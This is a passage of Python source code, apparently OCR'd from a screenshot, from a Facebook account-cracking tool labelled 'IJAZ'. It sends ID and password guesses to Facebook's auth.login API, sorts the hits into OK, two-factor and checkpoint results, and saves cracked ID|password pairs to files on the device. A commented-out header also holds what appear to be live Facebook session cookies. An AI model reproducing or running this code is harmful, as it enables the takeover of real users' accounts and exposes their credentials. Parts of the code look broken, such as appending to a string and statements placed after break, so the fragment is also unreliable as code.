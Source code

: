     # 'cookie': 'sb=lkCBZHSYKeCS3UJz0hEmLSOx; c_user=100022483292193; dpr=2.1988937854766846; datr=jop9ZTBLpgxvDHQozCBGHYWR; xs=14%3AdmhvOusBEUfCuA%3A2%3A1702692401%3A-1%3A5898%3A%3AAcVvEaB9X4Z2BSXoVhRht2B-S7t9DBUyC-rlBfFBOg; presence=C%7B%22t3%22%3A%5B%5D%2C%22utc3%22%3A1703038718592%2C%22v%22%3A1%7D; fr=1YCQYYtIzaVa1Kzyp.AWXUSwx4WTzkXamYXkuwox_DZH4.Blgk74.X5.AAA.0.0.Blgk_3.AWXBq8f3DpA; wd=891x1684',
    'dpr': '2.19889',
    'origin': 'https://www.facebook.com',
    'referer': 'https://www.facebook.com/',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',
    'sec-ch-ua-full-version-list': '"Not_A Brand";v="8.0.0.0", "Chromium";v="120.0.6099.26"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-model': '""',
    'sec-ch-ua-platform': '"Linux"',
    'sec-ch-ua-platform-version': '""',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36',
    'viewport-width': '891',
    'x-asbd-id': '129477',
    'x-fb-lsd': 'v_VRkTBq3ev5FxrdxaVkgz',
}
                        url = 'https://b-api.facebook.com/method/auth.login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [IJAZ-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/IJAZ-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[IJAZ-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error_msg']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;206m [IJAZ-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                continue
                loop+=1
        except Exception as e:
                pass
#4method
def api5(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [IJAZ-M5] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try: